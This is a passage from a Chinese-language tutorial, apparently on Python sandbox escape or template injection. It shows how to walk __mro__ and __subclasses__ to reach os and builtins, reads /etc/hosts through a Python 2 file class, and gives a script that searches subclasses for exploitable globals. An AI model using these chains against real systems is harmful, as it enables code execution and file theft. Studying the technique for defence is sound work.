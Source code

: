 ### \_\_subclasses\_\_

获取类的所有子类，得到基类的目的就是为了获取全能实现的子类，在子类中寻找可利用的方法

```python
>>> ''.__class__.__mro__[0]
<class 'str'>
>>> ''.__class__.__mro__[0].__subclasses__()
[]
>>> ''.__class__.__mro__[1]
<class 'object'>
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>,....]
```

### \_\_init\_\_.\_\_globals\_\_

得到类的全部方法

```python
>>> ''.__class__.__mro__[1].__subclasses__()[132]
<class 'os._wrap_close'>
>>> ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__
{'__name__': 'os', '__doc__':.....}
```

### \_\_builtins\_\_

builtins是python中的一个模块，该模块提供对Python的所有“内置”标识符的直接访问，`builtins.open`<==>`open()`

在类中找到该模板是可以rce的

## 构造语句

### python2

#### 特殊的file

```python
>>> for i in enumerate(''.__class__.__mro__[2].__subclasses__()):print i

>>> ''.__class__.__mro__[2].__subclasses__()[40]('/etc/hosts').read()
```

#### rce

脚本简单的挖掘

```python
#python2
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    #print item
    try:
        if item.__init__.__globals__.keys():

            if '__builtins__' in  item.__init__.__globals__.keys():
                print num, item, '__builtins__'
            if  'os' in  item.__init__.__globals__.keys():
                print num, item, 'os'
            if  'linecache' in  item.__init__.__globals__.keys():
                print num, item, 'linechache'
        num += 1
    except:
        num += 1
```
